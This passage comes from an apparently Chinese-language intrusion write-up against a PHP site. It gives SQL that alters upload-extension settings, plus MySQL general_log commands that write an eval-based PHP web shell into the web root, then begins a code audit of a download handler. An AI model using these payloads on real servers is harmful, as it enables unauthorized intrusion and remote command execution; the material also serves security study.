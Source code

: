 | 

```


UPDATE ims\_core\_settings SET value = replace(value, 'pppppp', 'php ')  



```

 |

更新缓存，之后就可以上传`"*.php "`文件了。但是有限制，适用于apache下，而且版本有限制。目标站不使用该方法的原因有二，一是该系统上传的位置是腾讯云COS上，二是server是Tengine。

**第二种方法：**

第二种方法也是和sql执行有关，利用日志文件写shell。

| 

```


show variables like '%general%';  #查看配置  
set global general\_log = on;  #开启general log模式  
set global general\_log\_file = '/var/www/html/1.php';   #设置日志目录为shell地址  
select '<?php eval($\_POST\[cmd\]);?>'  #写入shell  



```

 |

或者通过慢查询（slow\_query\_log）的方法写shell。但目标系统也是失败，执行sql的时候报错。

还有一些其他的方法，这里测试也是失败的，就不再列举了。

**0x03 代码审计**
-------------

病急乱投医，熬成老中医。既然之前的方法不管用，只好去翻代码吧，找找是否有新的利用方式。翻出之前的一个文档，从里面找到之前的审计过程，看能否对现在有用。结果打开发现只有一个数据包和还有一句未实现的结论。

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwo8BGPNYVo7nI4M5icjjsDvHicMibXWhaQACElatkzV9Y79jYAb8U779uaaONhWmp2ZdK9tBopSbCCg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

没办法，只好重新围着这个点继续审计，看是否能有所进展。

### 1.分析

打开文件`web/source/cloud/dock.ctrl.php`，找到执行的`download`方法。

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwo8BGPNYVo7nI4M5icjjsDvNiafa5rme42tbxEGxkZW7ocUge16pjHR1cfNicdWKWFMicaa8B2WyrzCg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)
